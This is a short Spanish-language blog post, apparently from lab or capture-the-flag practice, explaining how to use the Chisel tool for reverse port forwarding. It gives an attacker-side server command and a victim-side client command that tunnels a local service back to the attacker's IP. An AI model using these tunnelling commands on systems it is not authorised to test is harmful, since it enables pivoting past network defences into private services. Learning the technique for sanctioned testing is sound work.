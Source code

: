 ```yaml
---
layout: single
title: Chisel
excerpt: "Explicación de como utilizar la herramienta chisel para realizar port forwarding."
date: 2021-11-28
classes: wide
header:
  teaser: /assets/images/Tools/Chisel/Chisel-logo.png
  teaser_home_page: true
  icon: /assets/images/tool.png
categories:
  - Tools
tags:
  - Port Forwarding
  - CLI

---
```



# Chisel
## Definición
Chisel es una herramienta hubicada en [github](https://github.com/jpillora/chisel), con la que podemos hacer port forwarding.

![overview](https://camo.githubusercontent.com/6209fb99bc6edcb2341900468f78b09f03d0be74e03b48e49beb87c52b55362c/68747470733a2f2f646f63732e676f6f676c652e636f6d2f64726177696e67732f642f317035335657787a474e667938726a722d6d5738707669734a6d686b6f4c6c383276416763744f5f366631772f7075623f773d39363026683d373230)

## Uso

  * <span style="color:red">*Atacante:*</span>
    * chisel server --reverse --port \<puerto para chisel\>
  * <span style="color:#7cb9e8">*Victima:*</span>
    * chisel client \<ip del atacante\>:\<puerto para chisel\> R:\<puerto del servicio en maquina de atacante\>:\<ip a la que accede la maquina víctima (puede ser el loopback)\>:\<puerto del servicio\>

### Ejemplo

* <span style="color:red">*Atacante:*</span>
    * chisel server --reverse --port 1234
* <span style="color:#7cb9e8">*Victima:*</span>
    * chisel client 10.10.14.14:1234 R:8888:127.0.0.1:8888

---

Escrito el 28-11-2021 a las 06:14 pm por creep33.
